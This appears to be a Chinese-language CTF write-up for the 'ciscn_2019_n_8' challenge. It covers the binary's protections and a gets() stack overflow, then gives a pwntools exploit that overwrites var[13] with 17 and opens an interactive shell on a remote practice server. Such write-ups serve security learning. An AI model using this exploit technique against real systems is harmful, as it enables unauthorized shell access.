

# 知识点

栈溢出


# 题目分析

1. 查看保护情况，32位程序。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      PIE enabled
   ```

2. 拖入IDA分析，发现存在经典的gets栈溢出，我们需要令var[13] = 17即可获得shell。

   填充下标0-12的13个字节的垃圾数据，然后填充17即可。
   
   


# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./ciscn_2019_n_8')
io = remote('node4.buuoj.cn', '26505')

payload = p32(0) * 13 + p32(17)
io.sendlineafter('name?\n', payload)

io.interactive()
```

